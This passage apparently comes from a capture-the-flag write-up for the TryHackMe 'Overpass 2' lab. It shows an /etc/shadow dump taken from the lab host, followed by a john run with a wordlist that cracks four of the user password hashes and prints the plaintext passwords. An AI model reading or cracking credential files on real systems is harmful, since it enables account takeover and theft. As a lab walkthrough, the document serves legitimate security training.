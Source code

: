 ```
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$
```

We can use this to try to crack the passwords with the fasttrack wordlist:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ cat shadow            
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ john --wordlist=/usr/share/set/src/fasttrack/wordlist.txt shadow                                                                                  130 ⨯
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2023-09-12 11:24) 4.081g/s 226.5p/s 1132c/s 1132C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ 
```